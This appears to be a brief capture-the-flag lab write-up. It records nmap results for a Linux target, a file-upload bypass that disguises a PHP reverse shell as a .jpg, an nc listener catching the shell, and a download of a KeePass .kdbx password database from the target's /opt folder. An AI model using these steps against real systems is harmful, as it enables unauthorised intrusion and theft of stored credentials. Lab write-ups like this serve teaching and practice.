 ### nmap
PORT    STATE SERVICE     VERSION 
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)  
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))  
139/tcp open  netbios-ssn Samba smbd 4.6.2  
445/tcp open  netbios-ssn Samba smbd 4.6.2  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

## directory enumeration  
/cloud 
File upload from External server.  
1. Start python server on kali machine
python -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
2. Rename shell to php-reverse-shell.php#.jpg and also keep php-reverse-shell.php in the same folder  
3. start nc -nlvp 4444  
4. Upload the file  
5. We get reverse shell

## remote machine /opt folder  
There is a dataset.kdbx file  
.kdbx file is a KeePass password database—it's encrypted and used to securely store usernames, passwords, and other secrets  
1. Start python3 -m http.server  
python3 -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
2. Go to browser and type http://10.10.208.45:8000/
3. We can downlod this dataset.kdbx file from this link to the local machine  



